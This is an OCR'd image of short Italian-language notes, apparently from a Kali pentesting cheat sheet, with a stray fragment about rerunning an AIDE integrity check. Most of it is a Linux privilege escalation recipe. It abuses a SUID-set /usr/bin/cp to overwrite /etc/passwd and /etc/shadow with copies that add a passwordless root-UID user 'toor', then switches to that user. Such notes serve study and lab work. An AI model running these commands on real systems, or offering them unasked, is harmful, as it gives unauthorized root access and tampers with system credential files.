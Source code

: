 5) eseguire di nuovo scansione sudo aide --config=/etc/aide/aide.conf --check

PRIVILEGE ESCALATION CON /USR/BIN/CP:
Per ottenere privilegi usando /usr/bin/cp, se ha il bit SUID settato, copiare /etc/passwd e shadow nella home usando cat /etc/passwd > file, poi aggiungici le righe sotto
passwd: toor:x:0:0:root:/root:/bin/bash
shadow: toor::19418:0:99999:7:::

poi esegui
/usr/bin/cp /home/kali/passwd /etc/passwd
/usr/bin/cp /home/kali/shadow /etc/shadow


per diventare toor: su toor 
